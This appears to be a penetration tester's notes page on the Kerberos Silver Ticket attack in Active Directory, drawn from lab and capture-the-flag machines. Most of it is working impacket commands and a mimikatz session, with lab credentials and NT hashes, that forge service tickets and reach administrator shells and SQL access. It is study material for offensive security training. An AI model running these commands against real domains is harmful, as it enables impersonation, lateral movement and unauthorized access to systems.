 ```yaml
---
description: >-
  Silver Ticket Attack
title: Silver Ticket Attack              # Add title here
date: 2023-01-22 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, silver ticket]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Ticketer
To generate a Silver ticket we need 3 resources:
- NTLM Hash 
- DC SID
- SPN

### Getting NTLM Hash
> To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.
{: .prompt-danger }

If we don't have the NTLM Hash but we have the password we can generate the hash with this tool: [NTLM Hash Generator](https://codebeautify.org/ntlm-hash-generator)
![Getting-NTLM-Hash](/assets/img/Pasted image 20230122000844.png)

### Extracting DC SID
To create the ticket, we first need the obtain the so-called _Security Identifier_ or _SID_ of the domain. A SID is an unique name for any object in Active Directory and has the following structure:
```text
S-1-5-21-2536614405-3629634762-1218571035-1116
```
Within this structure, the SID begins with a literal "S" to identify the string as a SID, followed by a _revision level_ (usually set to "1"), an _identifier-authority_ value (often "5" within AD) and one or more _subauthority_ values.

We can use the following command:
```bash
impacket-getPac scrm.local/ksimpson:ksimpson -targetUser Administrator
```
Also if we compromised a machine already we can easily obtain the SID of our current user with the whoami /user command and then extract the domain SID part from it. Let's try to do this on our Windows 10 client:
```powershell
C:\>whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103
```

### Getting the SPN
(-k option is needed only if NTLM authentication is disabled)
```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local
```

### Generating the Silver Ticket:
#### impacket-ticketer
We can craft a ticket as follows:
```bash
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.scrm.local Administrator -domain scrm.local
```
Examples:
[Intelligence](https://shuciran.github.io/posts/Outdated/#fnref:silver-ticket)
#### impacket-getST
Another option is to craft it with this impacket tool:
```bash
sudo impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :fca9edf1c9fb8f031dfc38d918279642
```
Examples:
[Intelligence](https://shuciran.github.io/posts/Outdated/#fnref:silver-ticket-impacket-getst)

### Using ticket with any impacket utility
#### impacket-mssqlclient
We can export the Administrator.ccache file generated so we can use it with any impacket utility:
```bash
export KRB5CCNAME=Administrator.ccache
```
As shown below:
```bash
impacket-mssqlclient dc1.scrm.local -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```
Examples:
[[Scramble#^ac1e1e]]

#### impacket-wmiexec
Then we can execute the `impacket-wmiexec` to access the machine:
```bash
export KRB5CCNAME=Administrator.ccache
impacket-wmiexec -k -no-pass dc.intelligence.htb
C:\>whoami
intelligence\administrator
```

Resources:
[SilverTicket Explanation S4vitar Minuto 1:20:00](https://www.youtube.com/watch?v=osmFGqnFe8c&ab_channel=S4viOnLive%28BackupDirectosdeTwitch%29):
![Silver-Ticket-Attack](/assets/img/Pasted image 20230122223446.png)

### Mimikatz
An additional option is to load the silver ticket to memory with mimikatz as follows:
```bash
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
User      : offsec
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: e2b475c11da2a0748290d87aa966c327 - rc4_hmac_nt
Service   : HTTP
Target    : CorpWebServer.corp.com
Lifetime  : 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'offsec @ corp.com' successfully submitted for current session

mimikatz # kerberos::list

[00000000] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
   Server Name       : HTTP/CorpWebServer.corp.com @ corp.com
   Client Name       : offsec @ corp.com
   Flags 40a00000    : pre_authent ; renewable ; forwardable ;
```

Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket. Depending on the type of service, it might also be possible to obtain code execution.